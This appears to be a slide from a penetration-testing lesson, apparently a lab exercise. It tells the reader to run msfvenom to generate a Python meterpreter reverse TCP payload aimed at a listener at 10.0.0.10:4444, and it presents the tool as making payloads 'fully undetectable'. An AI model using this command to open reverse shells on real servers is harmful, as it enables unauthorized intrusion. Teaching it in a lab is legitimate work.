

# Your turn now - Create your payload
Msfvenom is a tool to create a custom payload and make it fully undetectable.
Open a terminal and type the following command:
msfvenom -p python/meterpreter/reverse_tcp LHOST=10.0.0.10 LPORT=4444
It will display a python code which can create a reverse shell from the vulnerable web server.